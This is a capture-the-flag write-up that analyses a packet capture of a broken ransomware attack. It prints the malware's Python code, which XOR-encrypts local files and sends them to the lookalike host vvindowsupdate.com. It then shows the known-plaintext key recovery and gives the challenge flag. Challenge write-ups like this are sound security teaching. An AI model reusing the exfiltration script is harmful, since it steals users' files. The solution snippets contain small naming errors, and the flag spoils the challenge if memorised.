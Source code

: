 # Description
Author: @Jstith

We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.

Download the file(s) below.

# Files
`1337-malware.pcapng`

# Malware
When opening the capture in Wireshark, one of the first packets is a GET request to `vvindowsupdate.com` for `/rans.py` and it is soon followed by the response, which has the code: 

```py
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)

def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths

files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

From this, we can see the "broken" part of the script is that the hacker doesn't know the key they used to XOR the data with. 
We can also see from the code that each time the data is transmitted, it's preceded by a packet giving the full path to the file. 

# Getting the key
From the code above, we know that we need a 32-bit key. We can get the key by XOR-ing the encoded data with known data. Looking at
the TCP streams in Wireshark, we can see that 5 files were transferred:
```
/home/davey/Documents/resources.zip
/home/davey/Documents/ecorp.png
/home/davey/Documents/Welcome Aboard.pdf
/home/davey/Documents/.ssh/id_rsa
/home/davey/Documents/.ssh/id_rsa.pub
```
Of these files, `id_rsa` will have predictable starting bytes because 
they all start with `-----BEGIN OPENSSH PRIVATE KEY-----`. I exported the 
encoded `id_rsa` into a file I named `rsaenc` and ran the following 
script to get the key. 

```py
from pwn import xor

f = open('rsaenc', 'rb')
rsadata = f.read()

rsa = b'-----BEGIN OPENSSH PRIVATE KEY-----'[:32]

key = xor(rsadata[:32], rsa)
```

# Getting the Flag
I started with the PDF file since I thought it was the most likely to have the flag. 
I exported the data from Wireshark into `pdfdata` and ran the following:

```py
f = open('pdfenc', 'rb')
pdfdata = f.read()
p = xor(pdfdata, key)
f = open('welcome.pdf', 'wb')
f.write(p)
```
The flag wasn't in there, but it did give me a password to the ZIP file. 
I exported it and decoded it in the same way

```py
f = open('zipenc', 'rb')
zdata = f.read()
z = xor(zdata, key)
f = open('resources.zip', 'wb')
f.write(r)
```

Inside the zip was a file called `flag.txt` which contained `flag{c95c4ff18b0eb88123de779051a7a24f}`
